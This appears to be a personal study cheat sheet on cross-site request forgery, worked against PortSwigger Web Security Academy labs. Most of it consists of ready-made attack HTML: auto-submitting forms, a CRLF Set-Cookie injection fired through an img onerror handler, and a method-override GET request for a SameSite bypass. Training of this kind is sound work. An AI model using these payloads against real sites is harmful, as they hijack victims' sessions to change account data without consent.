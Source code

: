 # Cross-Site Request Forgery

# TABLE OF CONTENT
- **[Burp Suite CSRF PoF](#burp-suite-csrf-pof)**
- **[Bypass CSRF Token Validation](#bypass-csrf-token-validation)**
- **[Bypass SameSite Cookie Restriction](#bypass-samesite-cookie-restriction)**

## Burp Suite CSRF PoF 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8c00430370cdb281bc2110000d005a.web-security-academy.net/my-account" method="POST">
      <input type="hidden" name="id" value="wiener" />
      <input type="hidden" name="csrf" value="ASLKCEVLASKSfaksW" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Bypass CSRF Token validation


### Check if there's any csrf defense mechanism
We can check this by omitting the **`<input type="hidden" name="csrf" value="ASLKCEVLASKSfaksW" />`** part from the above payload. 

### CSRF where token validation depends on request method
Most requests are POST request, which validate the csrf token. However, when chaning these requests to other methods, the token is no longer valid. We can test this by changing the request method.

### CSRF where token validation depends on token bieng present
The token is only validated when it is present. When it is not ( by omitting the value field or the whole thinig like no defense mechanism scenario), there is no CSRF tokekn validation.

### CSRF token is not tied to the user session
Check if we can use CSRF token of 1 account to exploit another account. 
1. Log in account A and acquire its token
2. Log in account B and deliver the payload, modify the token with account A's token

### CSRF token is tied to a non-session cookie
Some applications use different frameworks for csrf tokens, which results in two different tokens being present at the same titme.

```bash
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

1. Check if the `csrfKey` is tied to `csrf`

| Steps | Results |
| ----- | ------- |
| Log in as `wiener:peter` and acquire the user's `csrfKey` and `csrf` values | |
| Capture the request trying to change the user's email. Modify the csrf token so it becomes invalid | If the application accepts the request, we can conclude the csrfKey and csrf are not tied together. Otherwise, continue to the next step. |
| Log in as `carlos:montoya` and capture the user's csrf. Replace wiener's csrf token with carlos' | If the application accepst the request, we can conclud the csrfKey and csrf are not tied together. Otherwise, continue to the next step. |
| Log in as `wiener:peter` and replace wiener's csrfKey and csrf tokens with carlos' | If the application accepts the request, we can conclue the csrf and csrfKey are tied together but the pair doesn't tie to the user-session cookie

2. Look for a functionality that allows us to modify the csrfKey. In this case, we can inject in the search function through GET request

```bash
https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()
```
In the response, we should see the `csrfKey` is set as we wish.
4. Deliver the payload

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac5009504bab9d186967b5f002b0096.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hello&#64;world&#46;com" />
      <input type="hidden" name="csrf" value="Your-csrf" />
      <input type="submit" value="Submit request" />
    </form>
      <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-csrfKey%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```
**NOTE:** In this case, we assume the search function allows us to set cookies. We can do it directly in the developer tool.

### CSRF where token is duplicated in cookie
Some applications have both csrf token in the session cookies and the request

```bash
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

1. Here we can make up any value for the csrf, either through the Developer Tools or through some functionalities that allow us to set cookie.
2. Deliver the payload (which has csrf set to the value we make up in step 1)

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8500dc04f529b58343a52300a900b2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="oops12345&#64;example&#46;com" />
      <input type="hidden" name="csrf" value="random" />
      <input type="submit" value="Submit request"
    </form>
    <img src="https://0a8500dc04f529b58343a52300a900b2.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=random%3b%20SameSite=None" onerror="document.forms[0].submit();" />
  </body>
</html>
```

## Bypass SameSite Cookie Restriction
### Same Site vs Same Origin
Requests are considered same site when the have the same schemes, Top-Level Domain and the additional level of domain.

![image](https://github.com/user-attachments/assets/37f73966-f260-405b-8407-428ff7cab6a4)

Same origins are considered same origin when they have the same schemes, domain names, port numbers 

![image](https://github.com/user-attachments/assets/dc608dc1-bcee-48b1-86bd-005844d5388c)

- Check if the website have SameSite's value set. Otherwise, it is defaulted to be Lax.

### Bypassing SameSite Lax restrictions using GET requests
PHP Symphony has `_method` that allows us to specify the method sent to the server. A regular POST request can be sent to the server under a form of GET request:

```bash
https://example.com/my-account/change-email?email=pwned@web-security-academy.net&_method=POST
```









